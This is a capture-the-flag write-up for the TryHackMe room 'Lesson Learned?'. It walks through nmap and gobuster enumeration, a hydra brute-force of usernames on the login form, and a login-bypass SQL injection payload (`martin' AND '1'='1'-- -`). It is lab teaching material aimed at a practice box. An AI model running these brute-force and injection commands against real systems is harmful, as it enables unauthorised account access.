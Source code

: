 ```yaml
---
title: Lesson Learned? - TryHackMe Write-Up
pubDate: 04/11/2024
description: A write-up on the room Lesson Learned?.
author: PrintN
media_subpath: /assets/blog/lesson-learned-tryhackme/
image:
  path: 0.webp
categories: [Write-ups, TryHackMe]
tags: [Website Hacking, Bruteforcing, SQL Injection]
render_with_liquid: false
---
```

## Introduction
Today we're going to take a look at [Lesson Learned?](https://tryhackme.com/r/room/lessonlearned){:target="_blank"} room made by TryHackMe and Tib3rius. The difficulty is easy.

The challenge description states there is no rabbit holes or hidden files but we have to treat the box as a real target. Going to the website `https://[MACHINE_IP]/` we're presented with a login form.
![Screenshot 1](1.webp)

## Enumeration
Doing a quick `nmap` scan we find the ports `22` and `80` open.

```bash
┌──(printn㉿kali)-[~]
└─$ nmap -sV 10.10.132.122  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 11:14 EST
Nmap scan report for 10.10.132.122
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

And a `gobuster` scan also doesn't return anything of interest.
```bash
┌──(printn㉿kali)-[~]
└─$ gobuster dir -u http://10.10.132.122/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.122/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 315] [--> http://10.10.132.122/manual/]
```

## OSINT
We have been told that we have to treat it like an real target so let's try doing some Open Source Intelligence (OSINT). When checking out the room creator Tib3rius out on his X / Twitter account we find some interesting posts regarding best practices with SQL injections and the dangers of using `OR 1=1`.
![Screenshot 2](2.webp) 
_[https://x.com/0xTib3rius/status/1624819441044185088](https://x.com/0xTib3rius/status/1624819441044185088){:target="_blank"}_

Doing a quick search of what the risks are on using `OR 1=1` in a SQL injection we get this article [https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/){:target="_blank"}

## Bruteforcing
We'll use `hydra` for the bruteforcing the username with the `xato-net-10-million-usernames` wordlist from SecLists. 

If you don't have it, download it with the following command.
```bash 
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/xato-net-10-million-usernames.txt
```

```bash
┌──(printn㉿kali)-[~]
└─$ hydra -L /usr/share/wordlists/xato-net-10-million-usernames.txt -p pass 10.10.132.122 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-04 12:04:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.132.122:80/:username=^USER^&password=^PASS^:Invalid username and password.
[80][http-post-form] host: 10.10.132.122   login: martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: patrick   password: pass
[80][http-post-form] host: 10.10.132.122   login: stuart   password: pass
[80][http-post-form] host: 10.10.132.122   login: marcus   password: pass
[80][http-post-form] host: 10.10.132.122   login: kelly   password: pass
[80][http-post-form] host: 10.10.132.122   login: arnold   password: pass
[80][http-post-form] host: 10.10.132.122   login: Martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: karen   password: pass
[80][http-post-form] host: 10.10.132.122   login: Patrick   password: pass
```

## SQL Injection
Great so now we got some usernames we can use, now it's time for the SQL injection. By using our knowledge from the post and the article we can craft the injection while ensuring we don't erase the database.

We craft the injection `martin' AND '1'='1'-- -` which we could also shorten to `martin'-- -`.
![Screenshot 4](4.webp)

And we receive the flag 🥳 and an explanation about the risks of using `OR 1=1` in SQL injections.
![Screenshot 5](5.webp)